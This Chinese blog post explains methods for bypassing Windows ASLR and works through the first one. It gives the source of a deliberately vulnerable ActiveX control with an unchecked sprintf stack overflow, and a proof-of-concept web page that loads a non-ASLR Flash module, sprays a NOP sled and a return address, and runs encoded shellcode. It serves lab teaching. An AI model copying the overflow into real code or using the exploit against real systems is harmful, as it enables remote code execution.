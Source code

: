 ```yaml
---
title: 攻击ASLR的方法
date: 2017-07-14 17:31:06
categories: 安全技术
tags: [windows, ASLR]
---
```


攻击ASLR的方式很多，这里主要讲攻击未启用ASLR的模块、利用部分覆盖进行定位内存地址、利用Heap Spray技术定位内存地址、利用java applet heap spray技术定位内存地址、为.NET控件禁用ASLR

### 1. 攻击未启用ASLR的模块

ASLR仅仅只是安全机制，不是行业标准，不支持ASLR的软件很多，它们的加载基址固定，如果能够在当前控件中找到这样的模块，就可以利用它里面的指令作跳板，无视ASLR。Adobe Player ActiveX9就不支持ASLR。

我们可以使用下面的方式测试：
1. 具有溢出漏洞的ActiveX控件
2. 不启用ASLR的Flash9e.ocx
3. 可以触发ActiveX控件溢出漏洞的POC页面

#### 1.1 ActiveX、POC代码

<pre><code>
void CVulnerAXCtrl::test(LPCTSTR str)
{
	// AFX_MANAGE_STATE(AfxGetStaticModuleState());
	// TODO: Add your dispatch handler code here
    printf("aaaa");
    char dest[100];
    sprintf(dest, "%s", str);
}
</code></pre>

<font color=#f00>这里面有一个巨大的坑点，就是在vista上安装好了adobe player activex 9之后，需要重启，否则在IE上打不开map.swf文件</font>

POC.html
<pre><code>
&lt;html&gt;
&lt;body&gt;
&lt;object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,115,0" width="160" height="260"&gt;  
&lt;param name="movie" value="map.swf" /&gt;  
&lt;param name="quality" value="high" /&gt;  
&lt;embed src="map.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"&gt;&lt;/embed&gt;
&lt;/object&gt; 
&lt;object classid="clsid:2554812E-4AE1-4FB0-8F6B-9C5E824D1B2D" id="test"&gt;&lt;/object&gt;
&lt;script&gt;
var s = "\u9090";
while (s.length &lt; 54) {
    s += "\u9090";
}
s += "\uEC2F\u3015\u9090\u9090";
s += "\u68fc\u0a6a\u1e38\u6368\ud189\u684f\u7432\u0c91\uf48b\u7e8d\u33f4\ub7db\u2b04\u66e3\u33bb\u5332\u7568\u6573\u5472\ud233\u8b64\u305a\u4b8b\u8b0c\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33\u6853\u6577\u7473\u6668\u6961\u8b6c\u53c4\u5050\uff53\ufc57\uff53\uf857";
test.test(s);
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;